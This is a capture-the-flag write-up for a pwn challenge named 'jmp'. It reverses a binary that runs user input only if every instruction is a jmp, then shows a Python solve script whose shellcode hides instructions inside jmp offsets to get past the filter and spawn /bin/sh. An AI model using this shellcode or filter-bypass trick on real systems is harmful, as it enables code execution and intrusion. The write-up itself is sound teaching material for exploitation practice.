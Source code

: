 # jmp

## Challenge

`Author`: **godsword**

**Description**

> jmp jmp jmp

**Files**

- [out_patched](./files/out_patched)
- [libc.so.6](./files/libc.so.6)
- [ld.so.2](./files/ld.so.2)
- [libcapstone.so.5](./files/libcapstone.so.5)

## Writeup

### Reverse Engineering

We are provided with the binary `out_patched`, no source code so let's decompile with ida (or ghidra whatever).

> Note: You need to put the executable and the libraries in the same directory since it's already patched.

There are two things to notice, it's quite simple  
Main  
![main decoompiled](./images/main.png)

Basically, it is mapping a region and reading user input into it and then after passing it to a check function it changes the permissions of the segment to RW and finally it calls our input which obviously should be a shellcode.  
Now for the check function

![check decompiled](./images/check.png)

So, this functions desassembles our shellcode and just makes sure that every instruction is a `jmp`.

### Exploitation

What we need to do is pretty straitghforward: write a shellcode with only `jmp` instruction.  
wait what ???

![???? gif](./images/what.gif)

That was my reaction at the beginning, I thought of trying to find some absurd combination of rop gadgets but I quickly realized I was stupid since `PIE` is enabled

![checksec](./images/checksec.png)

So, after some time of questionning my life choices I realized that since jmp uses relative offsets, the actual solution came to mind.  
We just need to use the offset themselves as instructions, so we just would need to use one jmp in order to jump in the middle of the next jmp instruction, in this case, the offset will be considerd as opcodes.  
example:

- Opcode for `pop rax` is `0x58`
- Opcode for `short jmp` (1 byte offset) is `0xeb`
- it means that if we have this code snippet:

```asm
jmp 0x1    // \xeb\x01
jmp 0x0x58 // \xeb\x01
```

So basically in this case, with dynamic analysis we will be getting

```asm
jmp 0x1 // \xeb\x01
pop rax // \x58
```

And using this principle we just need to write this shellcode:

```asm
mov rsi, rsp
add rsi, 0x50
xor rdi, rdi
xor rax, rax
push 0x8
pop rdx
syscall ; read(fd=0,buf=rsi,count=0x8) we are gonna send /bin/sh

mov rdi, rsi
push 0x3b
pop rax
push 0
push 0
pop rsi
pop rdx
syscall ; execve(pathname=rsi,argv=NULL,envp=NULL)
```

so at the end, we will get this final payload

```py
def main():
    global io
    io = conn()
    shellcode=b"\xeb\x02" #jmp into displacement of next instruction
    shellcode+=b"\xe9\x00\x48\x89\xe6"# mov rsi, rsp
    shellcode+=b"\xeb\x01" #jmp into displacement of next instruction
    shellcode+=b"\xe9\x48\x83\xc6\x50" # add rsi, 0x50

    shellcode+=b"\xeb\x02" #jmp into displacement of next instruction
    shellcode+=b"\xe9\x00\x48\x31\xFF" # xor rdi, rdi
    shellcode+=b"\xeb\x02" #jmp into displacement of next instruction
    shellcode+=b"\xe9\x00\x48\x31\xc0" # xor rax, rax
    shellcode+=b"\xeb\x03" #jmp into displacement of next instruction
    shellcode+=b"\xe9\x00\x00\x6a\x08" #push 0x8 to stack
    shellcode+=b"\xeb\x01" #jmp into displacement of next instruction
    shellcode+=b"\xeb\x5a" #pop rdx

    shellcode+=b"\xeb\x03" #jmp into displacement of next instruction
    shellcode+=b"\xe9\x00\x00\x0f\x05" # syscall

    shellcode+=b"\xeb\x02" #jmp into displacement of next instruction
    shellcode+=b"\xe9\x00\x48\x89\xf7" # mov rdi, rsi

    shellcode+=b"\xeb\x03" #jmp into displacement of next instruction
    shellcode+=b"\xe9\x00\x00\x6a\x3b" #push 0x3b to stack
    shellcode+=b"\xeb\x01" #jmp into displacement of next instruction
    shellcode+=b"\xeb\x58" #pop rax
    shellcode+=b"\xeb\x03" #jmp into displacement of next instruction
    shellcode+=b"\xe9\x00\x00\x6a\x00" #push 0 to stack
    shellcode+=b"\xeb\x03" #jmp into displacement of next instruction
    shellcode+=b"\xe9\x00\x00\x6a\x00" #push 0 to stack

    shellcode+=b"\xeb\x01" #jmp into displacement of next instruction
    shellcode+=b"\xeb\x5e" #pop rsi

    shellcode+=b"\xeb\x01" #jmp into displacement of next instruction
    shellcode+=b"\xeb\x5a" #pop rdx

    shellcode+=b"\xeb\x03" #jmp into displacement of next instruction
    shellcode+=b"\xe9\x00\x00\x0f\x05" # syscall

    # shellcode+=b"\xeb\x00"# infinite loop
    # shellcode+=b"\xeb\xfe"# infinite loop

    sleep(0.1)
    io.send(shellcode)

    sleep(0.1)

    io.send(b"/bin/sh\x00")
    sleep(0.1)

    io.interactive()

```

Solve script [here](./solve/solve.py)

> Note: we are also using near jmp (4 bytes offset) with opcode `0xe9` in order to have more flexibility in the shellcode

## Flag

`ingehack{the_junkiest_solve_script_award_goes_to}`
